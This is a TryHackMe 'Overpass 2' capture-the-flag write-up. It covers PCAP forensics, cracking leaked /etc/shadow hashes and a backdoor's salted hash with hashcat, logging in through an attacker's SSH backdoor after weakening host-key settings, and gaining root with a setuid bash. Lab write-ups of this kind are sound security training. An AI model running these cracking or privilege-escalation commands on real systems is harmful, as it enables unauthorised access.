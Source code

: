 # Overpass 2 - Hacked (THM)

- https://tryhackme.com/room/overpass2hacked
- March 22, 2023
- easy

---

## Forensics - Analyse the PCAP

- download the `pcapng` file and open with wireshark

1. What was the URL of the page they used to upload a reverse shell?

![](screenshots/2023-03-22-18-13-08.png)

2.  What payload did the attacker use to gain access?
- follow this http stream and found reverse shell code

![](screenshots/2023-03-22-18-14-07.png)

3. What password did the attacker use to privesc?
- in payload the attacker used port 4242 and filter with port 4242

![](screenshots/2023-03-22-18-20-40.png)

- follow this tcp stream and found password

![](screenshots/2023-03-22-18-21-58.png)

4. How did the attacker establish persistence?

- Github link from tcp stream

5. Using the fasttrack wordlist, how many of the system passwords were crackable?

- wordlist fasttrack - https://github.com/drtychai/wordlists/blob/master/fasttrack.txt
- from tcp stream, can see the contents of `/etc/shadow` file and copy to local machine as `shadow` file
- I used hashcat with wordlist fasttrack.txt

```sh
$ hashcat -m 1800 shadow /usr/share/wordlists/fasttrack.txt 
```
- found 4 passwords

## Analyse the code

6. What's the default hash for the backdoor?

- backdoor (GO) - https://github.com/NinjaJc01/ssh-backdoor
- from `main.go` file

![](screenshots/2023-03-22-18-38-50.png)

7. What's the hardcoded salt for the backdoor?

![](screenshots/2023-03-22-18-41-30.png)

![](screenshots/2023-03-22-18-41-45.png)

8. What was the hash that the attacker used? - go back to the PCAP for this!

![](screenshots/2023-03-22-18-42-42.png)

9. Crack the hash using rockyou and a cracking tool of your choice. What's the password?

- save `$pass.$salt` like this 

![](screenshots/2023-03-22-19-09-27.png)

- use hashcat to crack password

```sh
$ hashcat -m 1710 crack.hash /usr/share/wordlists/rockyou.txt
```
- found password

## Get back in!

![](screenshots/2023-03-22-19-12-32.png)

### Nmap

- already know that can enter ssh but to make sure run nmap 

```
PORT      STATE    SERVICE REASON      VERSION
22/tcp    open     ssh     syn-ack     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    open     http    syn-ack     Apache httpd 2.4.29 ((Ubuntu))
2222/tcp  open     ssh     syn-ack     OpenSSH 8.2p1 Debian 4 (protocol 2.0)
```

### User Access

- 2222 ssh is hacker's backdoor
- this ssh use sha1 and openssh will report an error
- https://stackoverflow.com/questions/69875520/unable-to-negotiate-with-40-74-28-9-port-22-no-matching-host-key-type-found-th
- cannot enter ssh 
- in `.ssh/config` in your local machine, write like this

```
Host REMOTE_IP
    HostKeyAlgorithms +ssh-rsa
    PubkeyAcceptedAlgorithms +ssh-rsa
```

- enter ssh at port 2222 as james with passphrase that was cracked before
```sh
 ssh -p 2222 james@10.10.205.202
```

### Root Access

- there is suid bit file in james' home directory

```sh
james@overpass-production:/home/james$ file .suid_bash 
.suid_bash: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=12f73d7a8e226c663034529c8dd20efec22dde54, stripped
james@overpass-production:/home/james$ ls -la .suid_bash 
-rwsr-sr-x 1 root root 1113504 Jul 22  2020 .suid_bash
```
- it is just `suid bash` binary
- just execute with `-p` flag and get root access
```sh
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# whoami
root
.suid_bash-4.4# cat user.txt
.suid_bash-4.4# cat /root/root.txt 
```